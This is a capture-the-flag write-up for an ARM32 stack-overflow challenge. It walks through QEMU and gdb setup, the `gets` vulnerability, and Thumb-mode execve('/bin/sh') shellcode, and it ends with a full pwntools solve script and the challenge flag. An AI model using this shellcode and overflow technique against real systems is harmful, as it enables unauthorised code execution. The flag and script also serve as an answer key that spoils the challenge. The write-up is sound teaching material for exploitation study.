






# ARM32

**`Authors:`** [m0kr4n3](https://github.com/m0kr4n3) & [Malik](https://github.com/malikDaCoda)

## Description

> Imagine a binary exploitation challenge with no ASLR, no PIE, RWX segments... but it runs on ARM! Should be fun, right?  
> Note: the binary is run using qemu-arm (qemu-user).

## Brief Summary

- all protections are disabled (no ASLR, no PIE, XN disabled, ...)
- `gets` is used in the vulnerable function `vuln`
- there are a bunch of ways to get a shell :
    * place execve shellcode on the stack and branch to it
    * ret2libc with ROP to execute system("/bin/sh")

## Write-up

### Intro

Let's start with checking the protections of the binary using `checksec` :



As the challenge description suggests, all protections are disabled! But this time we're dealing with the ARM achitecture. Do x86 exploits work the same as in ARM? We'll find out.  

Next, let's run the binary... but wait! We're dealing with an ARM binary, it can't be executed on a x86-64 machine! Luckily, there are ways to do so :
- emulate a Raspberry Pi using the `QEMU` System Emulator, explained [here](https://azeria-labs.com/emulate-raspberry-pi-with-qemu/)
- use the `QEMU` User Emulator  

`QEMU` is an open-source emulator. `qemu-system` is used to emulate a different operating system, while `qemu-user` is used to run binaries for other architectures but with the same operating system as the current one.  
We'll opt for the second way since it's easier.

### QEMU setup

Let's start with installing the necessary packages, on my Ubuntu machine :
```
sudo apt install gcc-arm-linux-gnueabihf libc6-dev-armhf-cross qemu-user qemu-user-static
```
Now, since we're dealing with a dynamically linked binary, we have to specify the arm library root folder when using qemu :
```
qemu-arm -L /usr/arm-linux-gnueabihf/ binary_path
```
We could also `export QEMU_LD_PREFIX=/usr/arm-linux-gnueabihf`.  

Finally we can run the binary :



Ha! Looks like a classic buffer overflow challenge.

Before moving onto analysis, I want to show how to debug an ARM program using gdb.  
First, we need to install `gdb-multiarch` :
```
sudo apt install gdb-multiarch
```
Now, to debug an ARM program, we need to wait for a gdb connection using qemu :
```
qemu-arm -g 1234 -L /usr/arm-linux-gnueabihf/ binary_path
```
I chose port 1234. On an other terminal launch `gdb-mutliarch binary_path`, and run the following :
```
# set the architecture to arm
set architecture arm
# set the system root that is used to load absolute shared library symbol files
set sysroot /usr/arm-linux-gnueabihf/
# connect to the listening gdb connection
target remote localhost:1234
```
Now you can look at the nice ARM disassembly and start debugging :



Executing the precedent gdb commands everytime can be a little tedious. To avoid that, we can put the following in a "gdbscript" file :
```
set architecture arm
set sysroot /usr/arm-linux-gnueabihf/
target remote localhost:1234
```
That way, we would only need to run `gdb-multiarch binary_path -x gdbscript`.

### Analysis

Now that we've got everything set up, let's look at the decompilation in ghidra, which supports the ARM architecture :





As we can see, the `vuln` function uses `gets`, so indeed we're dealing with a stack buffer overflow.

### Exploitation

Since there's a stack buffer overflow and all protections are disabled, there are a bunch of ways to get a shell. Let's go for a shellcode exploit!  

Ultimately, we want to execute `execve(filename="/bin/sh\x00", argv=0, envp=0)`, here is some ARM shellcode to do just that :
```asm
@ BINSH_OFFSET is the offset between &"/bin/sh\x00"
@ placed on the stack and pc (program counter)
sub r0, pc, #BINSH_OFFSET	@ filename: &"/bin/sh\x00"
mov r1, #0			@ argv: 0
mov r2, #0			@ envp: 0
mov r7, #11			@ SYS_execve
svc #0				@ invoke syscall
```
Although `gets` allows null bytes, I think it is good practice to write null byte free shellcode. In the following shellcode, we take advantage of Thumb mode to avoid null bytes :
```asm
.code 32			@ ARM mode (32-bit)
@ switch to thumb mode (unlocks 16-bit instructions)
@ to avoid null bytes
add r3, pc, #1
bx r3

.code 16			@ Thumb mode (16-bit)
sub r0, pc, #BINSH_OFFSET	@ filename: &"/bin/sh\x00"
@ eors is used for 16-bit xor
eors r1, r1			@ argv: 0
eors r2, r2			@ envp: 0
movs r7, #11			@ SYS_execve
svc #1				@ invoke syscall
mov r5, r5			@ NOP (shellcode must be 4 bytes aligned)
```
Thumb mode is activated when using a BX/BLX branch instruction after setting the destination register's least significant bit to 1.  
I will not go into much detail about ARM assembly, but here's a great introduction : [Writing ARM Assembly (Part 1) | Azeria Labs](https://azeria-labs.com/writing-arm-assembly-part-1/).  
Here's also a great tutorial for ARM shellcoding : [Writing ARM Shellcode | Azeria Labs](https://azeria-labs.com/writing-arm-shellcode/).  

The offset between the vulnerable buffer's address and the return address is 0x24 = 0x20 (buffer size) + 4 (frame pointer).  

Now, to reliably jump back to the shellcode, we need to look for an instruction similar to `jmp esp` (x86). The corresponding family of instructions in ARM would be the branch instructions :
- Branch `B` :
    * simple jump to a function
- Branch link `BL` :
    * saves (PC+4) in LR (link register) and jumps to function
- Branch exchange `BX` and Branch link exchange `BLX` :
    * same as B/BL + exchange instruction set (ARM <-> Thumb)
    * needs a register as first operand: BX/BLX reg  

In this case, we'll need to look for a BX/BLX instruction in the binary, so that we can overwrite the return address with its address. We can use `ropper` :



As you can see, `ropper` shows two addresses for each gadget but highlights the odd address in green, this indicates that the instructions are in Thumb mode.  

Our final payload looks like this :
```
"/bin/sh\x00"
"A"*(padding-8) # -8 bytes for "/bin/sh\x00"
bx_sp gadget # overwrite return address
shellcode
```
Refer to the solve script below, for more details.

### Solve script

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge/arm32")

HOST, PORT = "localhost", 1337

context.binary = elf

def main():
    global io

    # padding to reach return address
    # 0x20 for buffer size
    # +4 for frame pointer
    pad = 0x20 + 4

    # gadgets
    # +1 is added because the instructions
    # are in thumb mode
    bx_sp = next(elf.search(
        asm("bx sp", arch="thumb"),
        executable=True
    )) + 1

    io = conn()

    payload = flat(
        "/bin/sh\0",
        # padding to reach return address
        b'A'*(pad-8),
        # branch to sp, where the shellcode will be
        bx_sp,
    )

    context.clear(arch="arm")

    # although `gets` allows null bytes,
    # I think it is good practice to write
    # null-byte free shellcode

    # null-byte free shellcode
    shellcode1 = asm('''
        .code 32            @ ARM mode
        @ switch to thumb mode (unlocks 16-bit instructions)
        @ to avoid null bytes
        add r3, pc, #1
        bx r3

        .code 16            @ Thumb mode
        @ &"/bin/sh" offset calculation:
        @ pad (0x20+4) +
        @ retaddr (4) +
        @ 2 32-bit instructions (2*4) +
        @ 2*2 (pc points two instructions ahead) = 0x34
        sub r0, pc, #0x34   @ filename: &"/bin/sh" (at pc-0x34)
        eors r1, r1         @ argv: NULL
        eors r2, r2         @ envp: NULL
        movs r7, #11        @ execve syscall
        svc #1              @ invoke syscall
        mov r5, r5          @ NOP (shellcode must be 4 bytes aligned)
    ''')

    # simpler shellcode but with null bytes
    shellcode2 = asm('''
        @ &"/bin/sh" offset calculation:
        @ pad (0x20+4) +
        @ retaddr (4) +
        @ 2*4 (pc points two instructions ahead) = 0x30
        sub r0, pc, #0x30   @ filename: &"/bin/sh" (at pc-0x30)
        mov r1, #0          @ argv: NULL
        mov r2, #0          @ envp: NULL
        mov r7, #11         @ execve syscall
        svc #0              @ invoke syscall
    ''')

    # we can also get lazy and use shellcraft
    shellcode3 = asm(shellcraft.arm.execve(b"/bin/sh\0", 0, 0))

    io.recvline()

    payload += shellcode1

    # `gets`  stops reading when encountering a newline
    assert(b'\n' not in payload)
    io.sendline(payload)

    io.interactive()

def conn():
    if args.REMOTE:
        return remote(HOST, PORT)
    else:
        if args.GDB:
            p = process(["qemu-arm-static", "-g", "1234", "-L", "/usr/arm-linux-gnueabihf/", elf.path])
        else:
            p = process(["qemu-arm-static", "-L", "/usr/arm-linux-gnueabihf/", elf.path])
        return p

if __name__ == "__main__":
    io = None
    try:
        main()
    finally:
        if io:
            io.close()
```

### Flag

`shellmates{ARM_Xpl0it$_4r3_C00l}`
